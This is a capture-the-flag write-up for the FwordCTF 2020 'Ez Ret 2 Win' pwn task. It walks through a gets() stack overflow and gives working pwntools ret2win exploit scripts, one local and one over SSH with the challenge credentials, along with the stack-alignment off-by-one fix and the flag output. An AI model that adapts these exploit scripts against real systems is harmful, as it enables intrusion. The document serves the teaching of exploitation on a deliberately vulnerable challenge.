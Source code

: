 # FwordCTF 2020

## Ez Ret 2 Win ? (postmortem)

> 499
> 
> Is it really an easy Ret2Win ? i just couldn't exploit it :'(  
> **PS: Task is not broken ,this is the intended behaviour of the binary.**  
> SSH Credentials:  
> `ssh -p 2222 ctf@superez.fword.wtf`  
> Password: `FwOrDAndKahl4FTW`  
>
> Author: KAHLA
>
> [`superez`](superez)

Tags: _pwn_ _x86-64_ _bof_ _ret2win_ _ssh_


## Summary

This _is_ a stupid _easy_ _ret2win_ that worked locally, but not remotely (via ssh).  After reading a writeup, I was just _off by one_.  Kinda pissed.

Hat tip again to [po6ix](https://gist.github.com/po6ix/) for their [writeup](https://gist.github.com/po6ix/31a1ed1b033b1ab23541c84e83de448d#file-ez-ret-to-win-py)

The key is here from po6ix:

```
# payload += p64(0x400917)
payload += p64(0x400918)
```

+1.  Goddamnit.


## Analysis

### Checksec

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

The title indicate this is _ret2win_, so assume we just need to BOF and _ret2win_.


### Decompile with Ghidra

```c
  if (__fd == 0) {
    printf("Enter Your password to continue: ");
    gets(local_a8);
    printf("you typed \'%s\', Good Bye!\n",local_a8);
```

From `main` above, `gets` is the vulnerability.  And the buffer is `0xa8` bytes from the return address.

```c
undefined8 rasengan(void)
{
  int iVar1;
  FILE *__stream;
  
  __stream = fopen("flag.txt","r");
  if (__stream == (FILE *)0x0) {
    perror("flag.txt not found! If this happened in the server contact the author please!");
                    /* WARNING: Subroutine does not return */
    exit(1);
  }
  while( true ) {
    iVar1 = fgetc(__stream);
    if ((char)iVar1 == -1) break;
    putchar((int)(char)iVar1);
  }
  fclose(__stream);
  return 0;
}
```    

Here is our `win` function.  Easy, right?


## Exploit

### Local Test

```
#!/usr/bin/env python

from pwn import *

binary = context.binary = ELF('./superez')
context.log_level = 'DEBUG'
context.log_file = 'foo.log'

p = process(binary.path, stdin=PTY, raw=True)
p.recvuntil('Enter Your password to continue:')
payload  = 0xa8 * b'A'
payload += p64(binary.sym.rasengan)
p.sendline(payload)
p.interactive()
```

This worked perfectly.


### Remote Test

```
#!/usr/bin/env python

from pwn import *

binary = context.binary = ELF('./superez')
context.log_level = 'INFO'
context.log_file = 'log.log'

s = ssh(host='superez.fword.wtf',user='ctf',port=2222,password='FwOrDAndKahl4FTW')
p = s.run('/bin/bash')
p.recvuntil('/home/user1$')
p.sendline('./task')

p.recvuntil('Enter Your password to continue:')
payload  = 0xa8 * b'A'
payload += p64(binary.sym.rasengan)
p.sendline(payload)
p.interactive()
```

This did _NOT_ work.  I wasted all my time thinking it was something with ssh and some of the `termios` shitfuckery in `main`.

In hindsight I should have just checked out the libc version on the remote server, or just blindly tested:

`payload += p64(binary.sym.rasengan + 1)`

`+ 1`, there it is again.  I know better.  I should have known [stack alignment](https://blog.binpang.me/2019/07/12/stack-alignment/) could be a potential issue and testing with +1 could have been a lazy check.  Jesus, I already dealt with this twice in this CTF.

Fuck me.

Output:

```
# ./exploit.py
[*] '/pwd/datajerk/fwordctf2020/ezret2win/superez'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Connecting to superez.fword.wtf on port 2222: Done
[*] ctf@superez.fword.wtf:
    Distro    Unknown Unknown
    OS:       Unknown
    Arch:     Unknown
    Version:  0.0.0
    ASLR:     Disabled
    Note:     Susceptible to ASLR ulimit trick (CVE-2016-3672)
[+] Opening new channel: '/bin/bash': Done
[*] Switching to interactive mode

you typed 'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x18@', Good Bye!
FwordCTF{CVE-2019-18634_Is_L33t_BuT_1SnT_It_E4Sy_Ret2Win?}
Segmentation fault (core dumped)
```
